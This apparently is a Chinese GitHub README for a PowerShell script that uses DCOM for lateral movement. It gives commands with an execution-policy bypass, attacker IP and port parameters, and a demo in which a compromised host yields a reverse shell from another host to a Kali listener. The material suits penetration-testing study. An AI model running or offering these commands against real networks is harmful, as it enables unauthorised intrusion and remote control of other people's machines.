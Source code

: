 # Dcom-LateralMovement
利用DCOM进行横向移动的脚本

使用方法：
powershell -ep bypass -c ".\dcom.ps1 lhost lport rhost"
例：
powershell -ep bypass -c ".\dcom.ps1 127.0.0.1 3333 192.168.8.8"

lhost：攻击机IP
lport：攻击机的监听端口
rhost：要横向移动到的目标靶机的IP

演示案例：
我们已经获得192.168.50.74 - client74的控制权限
想要横向移动到192.168.50.72 - web04主机

1. 在kali开启监听
![image](https://github.com/SiennaSkies/Dcom-LateralMovement/assets/105592340/0e7de4a5-9432-4bd6-b367-19907aa35850)
3. 在client74中运行脚本
![image](https://github.com/SiennaSkies/Dcom-LateralMovement/assets/105592340/a20e96ed-d847-42dc-8519-93740c11e556)
4. kali收到来自web04的shell
